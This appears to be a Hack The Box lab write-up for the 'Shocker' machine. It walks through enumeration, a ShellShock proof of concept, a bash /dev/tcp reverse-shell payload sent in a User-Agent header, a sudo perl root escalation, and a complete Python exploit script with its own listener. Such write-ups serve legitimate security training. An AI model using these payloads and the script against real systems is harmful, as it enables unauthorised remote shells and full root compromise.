 ```yaml
---
title: "Shocker - HTB"
categories: [HackTheBox, Linux, Easy]
tags: [Linux,Easy,Web,ShellShock,RCE]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Shocker.png
---
```



# Introdution


[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)


This was a machine very easy in Hack The Box. In it we explore a vulnerability called ShellShock. 

The privilege escalation was with sudo in the perl binary.

The exploit for this machine is on the end of the post.

**Have a good time!**


## Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 80)
    B --> C[Gobuster]
    C --> |Gobuster| D[/cgi-bin/user.sh/]
    D --> ShellShock --> E[RCE]
    E --> |Script Python| F[Shell]
    F --> G[Root]
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.56 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.56
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled.png)


## Port 80 (http)

There’re a simple page web.

`http://10.10.10.56/`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%201.png)

The source code also don’t have nothing.

`view-source:http://10.10.10.56/`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%202.png)

### Fuzzing Diretório WEB

We will make a fuzzing with the tool `gobuster`.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%203.png)

We find the directory `cgi-bin`.

Based in the name’s machine, we can suggest that this directory there’re the vulnerability ShellShock.

So we did another fuzzing in the directory with some common cgi extension (sh, cgi, pl).

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f -x sh,cgi,pl
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%204.png)

We find only the file `user.sh`.

### User.sh

We run the file with `curl` to see your output

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%205.png)

Looks like it's a script running the `uptime` command, suggesting that this is a CGI bash script in execution

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%206.png)

We find shellshock.

# Exploration

## Exploiting ShellShock

> ShellShock (also known as Bashdoor or CVE-2014-6271) was a vulnerability in Bash discovered in 2014 that has to do with the Bash syntax for defining a function. The vuln allowed that the attacker run commands in places where they should to do only something safe like setting a environment variable.
> 

### POC shellshock:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id' " http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%207.png)

Alternatively, we can run the `nmap` for discover the vuln:

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%208.png)

## Getting Shell

After to prepare the listener, I getting the shell with the below command

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%209.png)

# Post Exploration

## Privilege Escalation (shelly → root)

We check the `perl` run sudo.

```bash
sudo -l
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2010.png)

Looking in the [GTOFBins](https://gtfobins.github.io/gtfobins/perl/#sudo) website, we find the command that allow to get root with the perl.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2011.png)

```bash
sudo perl -e 'exec "/bin/bash";'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2012.png)

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`shocker-getshell.py`

```python
#! /usr/bin/env python3

## Author: 0xEtern4lW0lf
## Created: 18 Dez 2022
## Description: GetShell - Shocker - HTB

## ========= MODULES =========

import argparse
import requests
import socket
import telnetlib
from threading import Thread

## ========= VARIABLE =========

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

## ========= FUNCTION =========

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection from {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

## Get the reverse shell
def GetShell(rhost,lhost,lport):
    print("[+] Sending payload! [+]")
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    url = f"http://{rhost}/cgi-bin/user.sh"
    headers = {"User-Agent": "() { :;}; echo; /bin/bash -c '%s'" %payload}
    r = requests.session()
    r.get(url, headers=headers)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser()
    parser = argparse.ArgumentParser(description='GetShell - Shocker / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    parser.add_argument('-l', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    ## Setup the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Get the reverse shell
    GetShell(rhost,lhost,lport)

## ======= EXECUTION =======

if __name__ == '__main__':
    main()
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2013.png)

 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).